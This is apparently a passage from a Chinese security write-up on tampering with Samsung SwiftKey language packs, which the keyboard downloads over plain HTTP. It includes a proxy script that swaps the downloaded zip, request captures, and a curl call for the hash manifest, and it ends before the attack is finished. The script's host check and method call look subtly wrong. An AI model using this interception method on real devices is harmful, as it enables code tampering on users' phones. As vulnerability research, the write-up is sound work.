 	GET http://skslm.swiftkey.net/samsung/downloads/v1.3-USA/az_AZ.zip
	              ← 200 application/zip 995.63kB 601ms
				  
压缩包下载后会被解压到以下目录:

	/data/data/com.sec.android.inputmethod/app_SwiftKey/<languagePackAbbrev>/.
	
压缩包内容:

	root@kltevzw:/data/data/com.sec.android.inputmethod/app_SwiftKey/az_AZ # ls -l
	       -rw------- system   system     606366 2015-06-11 15:16 az_AZ_bg_c.lm1
	       -rw------- system   system    1524814 2015-06-11 15:16 az_AZ_bg_c.lm3
	       -rw------- system   system        413 2015-06-11 15:16 charactermap.json
	       -rw------- system   system         36 2015-06-11 15:16 extraData.json
	       -rw------- system   system         55 2015-06-11 15:16 punctuation.json

可以看出压缩包中的文件是由 system user 写入的.权限很高哦,可以写入很多位置哦.因为压缩包和请求都是明文的,咱们可以尝试去篡改它.

可以通过 wifi 代理完成这个尝试,写了一个脚本来提高效率,脚本作用是当有语言包的请求时进行修改

	def request(context, flow):
	           if not flow.request.host == "kslm.swiftkey.net" or not flow.request.endswith(".zip"):
	             return
       
	           resp = HTTPResponse(
	               [1, 1], 200, "OK",
	               ODictCaseless([["Content-Type", "application/zip"]]),
	               "helloworld")
       
	           with open('test_language.zip', 'r') as f:
	             payload = f.read()
	             resp.content = payload
	             resp.headers["Content-Length"] = [len(payload)]
       
	           flow.reply(resp)
			   
Payload非常简单,就一个文件

	➜  /tmp  unzip -l test_keyboard.zip
	       Archive:  test_keyboard.zip
	         Length     Date   Time    Name
	        --------    ----   ----    ----
	               6  06-11-15 15:33   test
	        --------                   -------
	               6                   1 file
				   
修改之后查看/data/data/com.sec.android.inputmethod/app_SwiftKey/<languagePackAbbrev>目录,并没有发现语言包以及测试文件.这表示,应用对压缩包进行了合法性验证.当通过多次测试后,发现在压缩包下载之前有一个包含所有语言包列表/url路径/zip的SHA1哈希的配置文件被下载.

请求如下:

	>> GET http://skslm.swiftkey.net/samsung/downloads/v1.3-USA/languagePacks.json
	              ← 200 application/json 15.38kB 310ms]
				 
请求这个配置文件:

	➜ curl -s 'http://skslm.swiftkey.net/samsung/downloads/v1.3-USA/languagePacks.json' | jq '.[] | select(.name == "English (US)")'
	